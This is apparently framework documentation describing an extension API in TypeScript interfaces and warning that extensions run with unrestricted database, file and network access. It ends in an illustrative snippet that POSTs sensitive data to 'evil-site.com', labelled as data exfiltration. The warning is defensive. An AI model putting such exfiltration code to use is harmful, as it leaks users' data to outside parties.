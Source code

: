 ```typescript
interface ExtensionContext {
  app: AppDefinition;      // Full access to truth file
  db: DatabaseClient;      // Direct database access
  events: EventEmitter;    // Event system access
  utils: ExtensionUtils;   // Helper functions
  config: Config;          // Framework configuration
  logger: Logger;          // Structured logging
}

interface ExtensionUtils {
  // Validation
  validateInput: (data: any, schema: any) => any;
  
  // Security  
  hashPassword: (password: string) => Promise<string>;
  verifyPassword: (password: string, hash: string) => Promise<boolean>;
  generateToken: () => string;
  
  // Communication
  sendEmail: (to: string, subject: string, body: string) => Promise<void>;
  callWebhook: (url: string, data: any) => Promise<any>;
  
  // Logging
  log: (level: 'info' | 'warn' | 'error', message: string, data?: any) => void;
  
  // Utilities
  formatDate: (date: Date, format?: string) => string;
  generateSlug: (text: string) => string;
  sanitizeHtml: (html: string) => string;
}
```

### 🛡️ Extension Security & Sandboxing

> **🚨 CRITICAL SECURITY WARNING**: Extensions currently run with **unrestricted access**. This is a significant security risk for production applications.

#### **Current Security State (v1.0)**
- **❌ No Sandboxing**: Despite configuration, no actual isolation exists
- **❌ Unrestricted Database Access**: Extensions can read/write any data
- **❌ Full File System Access**: Extensions inherit Deno's broad permissions
- **❌ Unlimited Network Access**: Extensions can call any external service
- **❌ No Resource Limits**: Memory, CPU, and timeout limits not enforced
- **❌ No Import Restrictions**: Can import any Deno-accessible module

#### **What Extensions Can Currently Do**
```typescript
// ✅ Extensions have full access to:
const context = {
  db: DatabaseClient,           // Unrestricted SQL execution
  app: AppDefinition,          // Complete truth file access
  events: EventEmitter,        // Emit/listen to any events
  utils: {
    sendEmail: () => {},       // Send emails to anyone
    callWebhook: () => {},     // Call any external API
    // ... all utility functions
  }
}

// ⚠️ Extensions can also:
await fetch('https://evil-site.com', {
  method: 'POST',
  body: JSON.stringify(sensitiveData)  // Data exfiltration
```